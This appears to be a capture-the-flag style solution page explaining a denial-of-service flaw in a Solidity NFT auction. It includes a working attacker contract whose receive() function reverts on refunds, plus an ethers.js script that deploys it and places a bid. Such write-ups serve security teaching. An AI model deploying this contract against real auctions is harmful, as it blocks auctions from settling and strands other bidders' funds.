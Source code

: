 \documentclass[12pt]{article}
\begin{document}
The solution exploits this vulnerability through a malicious contract that:

\begin{enumerate}
\item Places a valid bid to be added to the bidders list
\item Implements a \texttt{receive()} function that deliberately reverts when it receives ETH
\end{enumerate}

This ensures that when the auction tries to conclude, it will attempt to refund our malicious contract, which will reject the payment and cause the entire transaction to fail.

\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
contract NFTAuctionAttacker {
    // Error for rejection
    error RejectPayment();
    
    // The NFT auction contract to attack
    INFTAuction public nftAuction;
    
    constructor(address _nftAuction) {
        nftAuction = INFTAuction(_nftAuction);
    }
    
    // Function to place a bid on the auction
    function attack() external payable {
        nftAuction.bid{value: msg.value}();
    }
    
    // This function will revert when the auction tries to refund this contract
    // causing the entire endAuction transaction to fail
    receive() external payable {
        revert RejectPayment();
    }
}
\end{lstlisting}
\end{minipage}

\noindent
To execute the attack, we deploy the attacker contract and bid through it:

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Deploy our attacker contract
const NFTAuctionAttacker = 
  await ethers.getContractFactory("NFTAuctionAttacker", player);
const attackerContract = 
  await NFTAuctionAttacker.deploy(nftAuction.target);

// Place a bid through our attacker contract
// We bid more than the current highest bid to ensure we're included
await attackerContract.connect(player).attack({
    value: ethers.parseEther("2.9") // Higher than the last bid of 2.8 ETH
});
\end{verbatim}
\end{minipage}
\end{document}
